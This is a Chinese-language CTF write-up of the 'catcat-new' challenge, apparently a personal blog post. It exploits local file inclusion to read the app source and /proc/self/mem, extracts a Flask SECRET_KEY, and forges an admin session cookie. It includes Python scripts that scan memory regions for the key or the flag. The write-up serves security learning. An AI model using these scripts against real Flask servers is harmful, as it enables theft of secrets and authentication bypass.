








# Flask-session 伪造

从攻防世界里面找到的题目，以为比较简单，结果发现是没见过的方法（还在文件包含上试了好久）。但是最后用原作者和 WP 中提供的代码也没成功返回 flag（感觉是 bug？），但是解法和思路是没错的。

---

## 从题目说起：catcat-new

打开网站可以看到一个界面，什么都看不出来



随意点开一个内容，可以看到里面的详细内容


从地址栏可以看到内容是通过文件包含的形式展现的，先推测存在**文件包含漏洞**



测试后发现确实存在本地文件包含漏洞，且测试一共存在两级目录，即使用 `../../` 返回两级目录即可到达 `/` 根目录

但下一步尝试了很多常见敏感目录，探查网页框架。**发现并不是常见的 PHP 框架**

***（启发：虽然是 php 常见漏洞，但是框架可以是其他的，需要多尝试）***

随后再次尝试其他框架，推测是 python 框架，使用 `app.py` 这个 flask 默认文件名读取



成功获取源代码

整理后得到

```python
import os 
import uuid 
from flask import Flask, request, session, render_template, Markup 
from cat import cat  

flag = "" 
app = Flask(  __name__,  static_url_path='/', static_folder='static') 
app.config['SECRET_KEY'] = str(uuid.uuid4()).replace("-", "") + "*abcdefgh" 
if os.path.isfile("/flag"):  
	flag = cat("/flag")  
	os.remove("/flag")  

@app.route('/', methods=['GET']) 
def index():  
	detailtxt = os.listdir('./details/')  
	cats_list = []  
	for i in detailtxt:  
		cats_list.append(i[:i.index('.')])    
		return render_template("index.html", cats_list=cats_list, cat=cat)    

@app.route('/info', methods=["GET", 'POST']) 
def info():  
	filename = "./details/" + request.args.get('file', "")  
	start = request.args.get('start', "0")  
	end = request.args.get('end', "0")  
	name = request.args.get('file', "")[:request.args.get('file', "").index('.')]    
	return render_template("detail.html", catname=name, info=cat(filename, start, end))     

@app.route('/admin', methods=["GET"]) 
def admin_can_list_root():  
	if session.get('admin') == 1:  
		return flag  
	else:  
		session['admin'] = 0  
		return "NoNoNo"    


if __name__ == '__main__':  app.run(host='0.0.0.0', debug=False, port=5637)
```

可以看到共有三个路由节点，而 flag 就在 `admin` 节点中（通过目录搜索也能找到 admin 节点）

可以看到重点在于修改 session 中 admin 的值为 1 从而得到 flag
此外还有一个 cat 包中的 cat 函数，也可以通过文件包含的方式得到源代码 `cat.py`

```py
import os, sys, getopt

# 核心函数
def cat(filename, start=0, end=0)->bytes: 
    data = b\'\'  
    try: 
        start = int(start) 
        end = int(end)  
    except: 
        start=0 
        end=0  
    if filename != "" and os.access(filename, os.R_OK): 
        f = open(filename, "rb") 
        if start >= 0: 
            f.seek(start) 
            if end >= start and end != 0: 
                data = f.read(end-start)  
            else: 
                data = f.read()  
        else: 
            data = f.read()  
        f.close()  
    else: 
        data = ("File `%s` not exist or can not be read" % filename).encode()  
    return data
        
# 无关紧要    
if __name__ == \'__main__\': opts,args = getopt.getopt(sys.argv[1:],\'-h-f:-s:-e:\',[\'help\',\'file=\',\'start=\',\'end=\']) fileName = "" start = 0 end = 0  for opt_name, opt_value in opts: if opt_name == \'-h\' or opt_name == \'--help\': print("[*] Help") print("-f --file File name") print("-s --start Start position") print("-e --end End position") print("[*] Example of reading /etc/passwd") print("python3 cat.py -f /etc/passwd") print("python3 cat.py --file /etc/passwd") print("python3 cat.py -f /etc/passwd -s 1") print("python3 cat.py -f /etc/passwd -e 5") print("python3 cat.py -f /etc/passwd -s 1 -e 5") exit() elif opt_name == \'-f\' or opt_name == \'--file\': fileName = opt_value  elif opt_name == \'-s\' or opt_name == \'--start\': start = opt_value  elif opt_name == \'-e\' or opt_name == \'--end\': end = opt_value if fileName != "": print(cat(fileName, start, end))   else: print("No file to read")
```

可以发现 cat 函数就是用于文件包含的函数，且存在两个参数 `start` 和 `end` 限定读取的头尾（该设定在下面有重要作用）

想要修改 session 的内容，需要获取 `secret_key` 的值

源代码中可以看到 `secret_key` 的值由 `uuid.uuid4()` 函数加一串固定字符生成



查询可知 uuid4 版本会生成 32 位随机十六进制字符，**基本不可能暴力破解**

---

## 知识点

### python 存储对象的位置在堆上

app 是实例化的 Flask 对象

```py
app = Flask(__name__, static_url_path='/', static_folder='static')
```

而 secret_key 存储在 `app.config['SECRET_KEY']`

### 可以通过读取 /proc/self/mem 获取 secret_key

### `/proc/self/mem` 是当前进程的内存内容，但是其中存在大量不可读写的内容，需要结合 `/proc/self/maps` 中的偏移地址进行读取

直接读取 mem 崩溃：



读取 maps （大量内容）：



设定 start 和 end 的值后可以限制读取区域（用于防止读 mem 时崩溃）：



---

## 回到题目

编写代码读取 secret_key

```py
# read /proc/self/maps
map_list = requests.get(url + f"info?file={bypass}/proc/self/maps")
map_list = map_list.text.split("\\n")   # 去除换行符
for i in map_list:
    map_addr = re.match(r"([a-z0-9]+)-([a-z0-9]+) rw", i)   # 通过正则匹配可读写区域
    if map_addr:
        start = int(map_addr.group(1), 16)
        end = int(map_addr.group(2), 16)
        print("Found rw addr:", start, "-", end)

        # read /proc/self/mem
        secret_key = None
        res = requests.get(f"{url}/info?file={bypass}/proc/self/mem&start={start}&end={end}")   # 在每个可读写区域读取内容
        if "*abcdefgh" in res.text:
            secret_key = re.findall("[a-z0-9]{32}\\*abcdefgh", res.text)    # 通过正则匹配固定字符串从而匹配 secret_key
        if secret_key:
            print("Secret Key:", secret_key[0])
            sk = secret_key[0]
            break
```

通过该代码即可获取 secret_key

最后使用 `flask-unsign` 或 `flask_session_cookie_manager` 或自己编写等方式，构造数据为 `{'admin':1}` 的 session 并发送即可

## 彩蛋

通过直接在 `mem` 中读取 flag 也可行，需要提前知道 flag 的形式
（已知 flag 形式为 `catctf{xxx}`）
代码如下：

```py
map_list = requests.get(url + f"info?file={bypass}/proc/self/maps")
map_list = map_list.text.split("\\n")
for i in map_list:
    map_addr = re.match(r"([a-z0-9]+)-([a-z0-9]+) rw", i)
    if map_addr:
        start = int(map_addr.group(1), 16)
        end = int(map_addr.group(2), 16)
        print("Found rw addr:", start, "-", end)

        # directly find flag in mem
        res = requests.get(f"{url}/info?file={bypass}/proc/self/mem&start={start}&end={end}")
        if "catctf{" in res.text:
            with open('flag.txt', 'w') as f:
                f.write(res.text)
                f.close()
            break
        else:
            continue
```

将存在 flag 的内容段保存后用查找功能即可



---

## 工具介绍
[Paradoxis/Flask-Unsign: Command line tool to fetch, decode, brute-force and craft session cookies of a Flask application by guessing secret keys.](https://github.com/Paradoxis/Flask-Unsign)

[noraj/flask-session-cookie-manager: :cookie: Flask Session Cookie Decoder/Encoder](https://github.com/noraj/flask-session-cookie-manager)

---

## 参考资料

出题人博客：
[CTF中Python_Flask应用的一些解题方法总结 | Savant's Blog](https://blog.lxscloud.top/2022/10/09/CTF%E4%B8%ADPython_Flask%E5%BA%94%E7%94%A8%E7%9A%84%E4%B8%80%E4%BA%9B%E8%A7%A3%E9%A2%98%E6%96%B9%E6%B3%95%E6%80%BB%E7%BB%93/)

题目来源：
[攻防世界](https://adworld.xctf.org.cn/challenges/list)
